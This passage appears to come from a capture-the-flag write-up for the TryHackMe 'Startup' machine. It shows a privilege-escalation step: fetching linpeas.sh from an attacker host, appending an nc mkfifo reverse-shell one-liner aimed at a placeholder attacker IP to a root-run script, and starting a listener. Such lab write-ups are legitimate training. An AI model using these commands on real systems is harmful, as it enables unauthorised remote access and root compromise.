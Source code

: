 In target machine:
```
$ cd /tmp

$ wget http://<ATTACKER-IP>/linpeas.sh

$ chmod +x linpeas.sh

$ ./linpeas.sh
```

![img](linpeas.png)

Looks weird here. Try to view the content of **"/etc/print.sh"** and its permissions.
```
$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 98 Aug  1 10:24 /etc/print.sh

$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

Looks like the **script will only be run by root**.

Now, try to write the file by inserting our reverse shell payload. I used one from the [revshells](https://www.revshells.com/), the **"nc mkfifo"** one. Paste the payload in the script:
```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> 1234 >/tmp/f" >> /etc/print.sh
```

**Before running the script**, make sure to run **another netcat as listener**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
